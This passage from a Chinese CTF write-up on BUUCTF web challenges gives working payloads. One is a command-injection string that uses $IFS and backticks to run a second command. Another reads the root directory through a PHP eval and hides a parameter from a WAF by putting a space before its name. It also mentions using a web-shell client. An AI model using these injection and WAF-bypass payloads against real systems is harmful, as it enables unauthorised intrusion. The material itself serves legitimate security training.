 ```
?ip=111;cat$IFS$1`ls`
```

就是将反引号内命令的输出作为输入执行。



## 0xB.[极客大挑战 2019]Knife

菜刀连一下就OK

## 0xC.[RoarCTF 2019]Easy Calc

这题用到的知识点：**PHP的字符串解析特性**

**可以先查看根目录下文件：**

```
?%20num=1;var_dump(scandir(chr(47)))
```

![image-20210415181858484](BUU-WEB-0x1-0xF/image-20210415181858484.png)



为什么要在num前加空格？

​	假如waf不允许num变量传递字母，可以在num前加个空格，这样waf就找不到num这个变量了，因为现在的变量叫“ num”，而不是“num”。但php在解析的时候，会先把空格给去掉，这样我们的代码还能正常运行，还上传了非法字符。

如果发现过滤，可以使用chr()转ascii之后拼接。
